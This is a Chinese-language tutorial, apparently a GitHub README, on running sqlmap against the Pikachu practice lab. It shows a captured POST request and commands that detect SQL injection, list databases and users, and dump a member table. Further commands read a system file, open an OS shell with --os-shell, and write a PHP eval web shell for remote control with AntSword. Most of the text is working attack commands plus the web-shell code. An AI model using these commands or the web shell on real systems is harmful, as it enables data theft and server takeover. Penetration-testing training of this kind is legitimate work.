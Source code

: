 # sqlmap使用

## 简介

[sqlmap](https://sqlmap.org/) 是一种开源渗透测试工具，可自动执行检测和利用 SQL 
注入缺陷以及接管数据库服务器的过程。它配备了一个强大的检测引擎、终极渗透测试器的许多利基功能以及广泛的开关，从数据库指纹识别、从数据库获取数据，到访问底层文件系统和通过带外连接在操作系统上执行命令

## 用法

### 获取帮助文档

```
sqlmap -h
```

<details>
  <summary>点我展开</summary>
  <pre><code>
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.7#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

Usage: python3 sqlmap [options]

Options:
-h, --help            Show basic help message and exit
-hh                   Show advanced help message and exit
--version             Show program's version number and exit
-v VERBOSE            Verbosity level: 0-6 (default 1)

Target:
At least one of these options has to be provided to define the
target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -g GOOGLEDORK       Process Google dork results as target URLs

Request:
These options can be used to specify how to connect to the target URL

    --data=DATA         Data string to be sent through POST (e.g. "id=1")
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --random-agent      Use randomly selected HTTP User-Agent header value
    --proxy=PROXY       Use a proxy to connect to the target URL
    --tor               Use Tor anonymity network
    --check-tor         Check to see if Tor is used properly

Injection:
These options can be used to specify which parameters to test for,
provide custom injection payloads and optional tampering scripts

    -p TESTPARAMETER    Testable parameter(s)
    --dbms=DBMS         Force back-end DBMS to provided value

Detection:
These options can be used to customize the detection phase

    --level=LEVEL       Level of tests to perform (1-5, default 1)
    --risk=RISK         Risk of tests to perform (1-3, default 1)

Techniques:
These options can be used to tweak testing of specific SQL injection
techniques

    --technique=TECH..  SQL injection techniques to use (default "BEUSTQ")

Enumeration:
These options can be used to enumerate the back-end database
management system information, structure and data contained in the
tables

    -a, --all           Retrieve everything
    -b, --banner        Retrieve DBMS banner
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --passwords         Enumerate DBMS users password hashes
    --dbs               Enumerate DBMS databases
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --schema            Enumerate DBMS schema
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

Operating system access:
These options can be used to access the back-end database management
system underlying operating system

    --os-shell          Prompt for an interactive operating system shell
    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC

General:
These options can be used to set some general working parameters

    --batch             Never ask for user input, use the default behavior
    --flush-session     Flush session files for current target

Miscellaneous:
These options do not fit into any other category

    --wizard            Simple wizard interface for beginner users

[!] to see full list of options run with '-hh'

  </code></pre>
</details>

### pikachu数字注入post请求

将抓包的内容放在一个文件里，如`number.txt`

<details>
  <summary>点我展开</summary>
  <pre><code>
POST /pikachu/vul/sqli/sqli_id.php HTTP/1.1
Host: 192.168.1.2
Content-Length: 30
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.2
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36 Edg/128.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.2/pikachu/vul/sqli/sqli_id.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=ceqfckeafjbpl03t4jck0vfrh7
Connection: keep-alive

id=1&submit=%E6%9F%A5%E8%AF%A2

</code></pre>
</details>

sqlmap执行如下的命令
```
-- 是否有注入点
sqlmap -r number.txt
```

### 获取信息

#### 数据库信

```
sqlmap -r number.txt --dbs          #获取所有数据库名
sqlmap -r number.txt --current-user #当前用户
sqlmap -r number.txt --current-db   #当前连接的数据库
sqlmap -r number.txt --is-dba       #判断是否为管理
sqlmap -r number.txt --users        #数据库所有用户
```

#### 获取表信息

表名

格式： sqlmap -r number.txt --tables -D 数据库名
```
sqlmap -r number.txt --tables -D pikachu
```

#### 字段名

格式： sqlmap -r number.txt --columns -T 表名 -D 数据库名
```
sqlmap -r number.txt --columns -T member -D pikachu
```

#### 获取表中的数据

格式： sqlmap -r number.txt [-C 列1,列2...] -T 表名 -D 数据库名
```
sqlmap -r number.txt -T member -D pikachu --dump
```

#### 获取系统中的文件

```
sqlmap -r number.txt --file-read C:/Windows/System32/drivers/etc/hosts
```

## --os-shell

**获取shell**

前提

- 知道php服务器的目录
- 数据库开启了`secure_file_priv`配置

```
sqlmap -r number.txt --os-shell
```

```
输入web server language，这里是pikachu项目，输入php对应的数字：4

do you want sqlmap to further try to provoke the full path disclosure? [Y/n] **：回车**

what do you want to use for writable directory? （可写如的文件夹，这个需要知道服务的根目录，选择自定义2）

please provide a comma separate list of absolute directory paths: **C:\\software\\phpstudy_pro\\WWW**

you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header 
which intersect with yours. Do you want to merge them in further requests? [Y/n] **：回车** 

os-shell> **（到这里就进去了系统的shell）**
```
可以看到在根目录下有两个上传的文件：`tmpupivz.php`，`tmpbjdzz.php`.

可以使用简单的命令`notepad`,`calc`,`dir`等测试一下。

**获取shell的第二种方式**

假设写好了test.php是一个shell脚本，内容如下：
```php
<?php @eval($_POST['qwert']);?>
```

那么可以通过以下命令来写入shell。
```
sqlmap -r number.txt --file-write "test.php" --file-dest "C:\\software\\phpstudy_pro\\WWW\\test.php" -v 1
```

如果写入成功，可以尝试使用通过[蚁剑](https://github.com/AntSwordProject/antSword)连接。